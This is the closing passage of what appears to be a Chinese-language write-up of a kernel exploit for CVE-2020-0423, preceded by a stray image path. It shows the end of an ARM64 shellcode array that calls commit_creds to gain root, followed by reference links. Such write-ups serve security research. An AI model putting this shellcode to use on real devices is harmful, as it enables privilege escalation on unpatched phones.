 ```
    HI_DWORD(commit_creds_addr),
    0xA9BF7BFD, // stp x29, x30, [sp, #-0x10]!
    0xD63F0020, // blr x1
    0xA8C17BFD, // ldp x29, x30, [sp], #0x10

    0x2A1F03E0, // mov w0, wzr
    0xD65F03C0, // ret
};

```

由此完成

参考
--

https://bbs.pediy.com/thread-264616.htm

https://www.longterm.io/cve-2020-0423.html